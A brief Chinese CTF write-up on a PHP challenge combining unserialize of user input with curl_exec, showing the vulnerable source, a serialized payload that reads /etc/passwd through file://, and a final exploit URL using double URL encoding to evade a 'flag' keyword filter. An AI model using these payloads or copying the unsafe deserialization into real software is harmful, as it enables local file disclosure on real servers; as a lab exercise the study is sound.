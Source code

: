 收获:知道了curl_exec 本地文件读取

```php
<?php

class Hello {
    protected $a;

    function test() {
        $b = strpos($this->a, 'flag');
        if($b) {
            die("Bye!");
        }
        $c = curl_init();
        curl_setopt($c, CURLOPT_URL, $this->a);
        curl_setopt($c, CURLOPT_RETURNTRANSFER, 1);
        curl_setopt($c, CURLOPT_CONNECTTIMEOUT, 5);
        echo curl_exec($c);
    }
    
    function __destruct(){
        $this->test();
    }
}

if (isset($_GET["z"])) {
    unserialize($_GET["z"]);
} else {
    highlight_file(__FILE__);
}
```



curl_exec+反序列化

试了下本地文件读取

O:5:"Hello":1:{s:1:"a";s:27:"file://localhost/etc/passwd";}

![](http://ww1.sinaimg.cn/large/006pWR9agy1g5uwj7l0c4j30wp0ax407.jpg)

题目过滤flag字符

说明我们flag就在flag文件里

谷歌看了好久，后来看一道又curl_exec的题目，获得了url二次编码的思路

最后的payload:

http://47.97.253.115:10006/?z=O:5:%22Hello%22:1:{s:1:%22a%22;s:23:%22file://localhost/%2566lag%22;}

这里有一些坑就是:

1. 你不知道flag文件在哪个文件夹,结果最后就在根目录。。

2. 因为是二次编码所以要注意字符串的长度

